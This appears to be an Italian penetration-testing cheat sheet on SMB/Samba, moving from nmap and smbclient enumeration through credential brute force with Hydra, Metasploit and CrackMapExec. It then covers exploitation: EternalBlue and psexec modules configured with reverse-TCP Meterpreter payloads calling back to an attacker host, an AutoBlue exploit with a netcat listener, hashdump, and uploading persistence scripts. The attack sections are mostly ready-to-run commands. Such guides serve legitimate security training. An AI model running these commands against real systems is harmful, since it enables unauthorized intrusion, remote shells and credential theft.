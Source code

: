 # SMB & Samba Enumeration & Exploitation

**SMB (Server Message Block)** è un protocollo di rete utilizzato principalmente nei sistemi Windows per la condivisione di file, stampanti e altre risorse. <br>
**Samba** è la sua implementazione libera in ambiente Linux/Unix, consentendo l’interoperabilità tra Windows e Linux. <br>
Entrambi operano sulle porte `445/TCP` (moderno) e `139/TCP` (legacy via NetBIOS). SMB/Samba è spesso abilitato di default, rendendolo un obiettivo comune durante un penetration test.

---

## Fase 1 – Scansione e Identificazione del Servizio

Per rilevare la presenza del servizio SMB/Samba e identificare la versione:

`nmap -sV -p139,445 <target>` ⟶ rileva SMB sulle porte NetBIOS e SMB Direct

Per ottenere maggiori informazioni:
- `nmap --script smb-os-discovery <target>` ⟶ sistema operativo, dominio, NetBIOS
- `nmap --script smb-enum-shares <target>` ⟶ condivisioni disponibili
- `nmap --script smb-enum-users <target>` ⟶ utenti configurati
- `nmap -p445 --script smb-vuln-ms17-010 <IP>` ⟶ verifica EternalBlue per Windows

Con Metasploit:
- `use auxiliary/scanner/smb/smb_version` ⟶ verifica versione SMB
- `use auxiliary/scanner/smb/smb_ms17_010` ⟶ verifica vulnerabilità EternalBlue per Windows

Identificare la versione aiuta a cercare exploit con:
`searchsploit samba <versione>`

Versioni vulnerabili comuni:
- **SMBv1** ⟶ EternalBlue (MS17-010)
- **Windows XP/2003/7 non patchati** ⟶ buffer overflow
- **vsrvsvc** ⟶ vulnerabilità RPC

---

## Fase 2 – Enumerazione Manuale del Servizio

### smbclient
Client simile a FTP per connettersi e interagire con le share:
- `smbclient -L //<target>/ -N` ⟶ condivisioni anonime
- `smbclient -L <IP> -U <username>` ⟶ share disponibili per utente
- `smbclient //<target>/<share> -U <username>` ⟶ accesso alla share

Comandi interni:
- `?`, `ls`, `get <file>`, `put <file>`, `cd`, `mkdir`, `rmdir`

### smbmap
Consente di elencare share e permessi associati:
- `smbmap -H <IP> -u <username> -p <password>`

Permessi comuni:
- `R` = lettura, `W` = scrittura, `-` = nessun accesso

### enum4linux
Strumento completo basato su `smbclient`, `rpcclient`, `nmblookup`:
- `enum4linux -a <IP>` ⟶ utenti, share, NetBIOS, gruppi, policy

### rpcclient
Permette l’interazione con i servizi RPC via SMB:
- `rpcclient -U "" <IP>` ⟶ connessione null session
- Comandi: `enumdomusers`, `enumdomgroups`, `queryuser <RID>`

---

## Fase 3 – Verifica Null Session

Una **null session** è una connessione SMB senza credenziali, potenzialmente utile per ottenere:
- Nomi utenti
- Share
- Informazioni di dominio

Test:
- `rpcclient -U "" <target>`
- `smbclient -L //<target>/ -N`

---

## Fase 4 – Brute Force delle Credenziali

### Con Hydra
`hydra -L <userList> -P <passwordList> <IP> smb` ⟶ attacco SMB/Samba

### Con Metasploit
```bash
use auxiliary/scanner/smb/smb_login
set RHOSTS <IP>
set USER_FILE <user_list>
set PASS_FILE <pass_list>
run
```

### Con CrackMapExec
- `crackmapexec smb <target> -u <user> -p <password>` ⟶ verifica credenziali
- `crackmapexec smb <target> --shares` ⟶ elenca condivisioni
- `crackmapexec smb <target> --users` ⟶ enumera utenti

---

## Fase 5 – Exploitation

### Exploit EternalBlue (MS17-010)

Con Metasploit:
```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <IP>
set SMBPIPE BROWSER
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <KaliIP>
set LPORT <Port>
run
```

Una volta ottenuta la shell:
- `getuid`, `getprivs`, `hashdump`

Con <a href="https://github.com/3ndG4me/AutoBlue-MS17-010">AutoBlue-MS17-010</a>:
```bash
cd AutoBlue-MS17-010/shellcode
chmod +x shell_prep.sh
./shell_prep.sh
nc -nvlp 4444
python eternalblue_exploit7.py <IP> shellcode/sc_x64.bin
```

### PsExec (Metasploit)
```bash 
use exploit/windows/smb/psexec
set RHOSTS <IP>
set SMBUser <username>
set SMBPass <password>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <KaliIP>
set LPORT <Port>
run
```

### Impacket – psexec.py
`psexec.py <username>@<IP> cmd.exe`⟶ accesso CMD remoto via SMB <br>
Percorso tipico: `/usr/share/doc/python3-impacket/examples/psexec.py`

---

## Fase 6 – Post Exploitation

Dopo l’accesso:
- Scarica `.txt`, `.conf`, `.xml`, `.ini`, `.bak`
- Carica payload/script di persistence
- Verifica se le share sono usate da processi attivi o servizi web

Comandi utili:
- `wget smb://<IP>`
- `curl smb://<IP>`
- `lftp <IP>`

---
